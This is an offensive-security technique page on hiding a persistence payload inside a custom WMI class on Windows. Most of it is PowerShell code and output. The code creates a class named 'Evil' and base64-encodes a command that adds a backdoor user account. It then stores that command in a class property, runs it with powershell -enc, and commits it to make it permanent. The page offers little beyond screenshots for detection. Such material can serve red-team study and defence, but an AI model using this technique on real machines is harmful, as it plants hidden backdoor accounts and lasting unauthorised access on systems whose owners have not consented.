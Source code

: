 ```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class' properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI explorer shows the new `Evil` class has been created under the root\cimv2 namepace - note the `EvilProperty` can also be seen:

![](../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the EvilPropertty, let's create a powershell base64 encoded command to add a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Update the `EvilProperty` attribute to now store the `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in screenshots:

![](../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties show the payload we have commited:

![](../../.gitbook/assets/wmi-payload-commited.png)

## Observations

![](../../.gitbook/assets/wmi-evil-mof.png)

![](../../.gitbook/assets/wmi-objects-data.png)

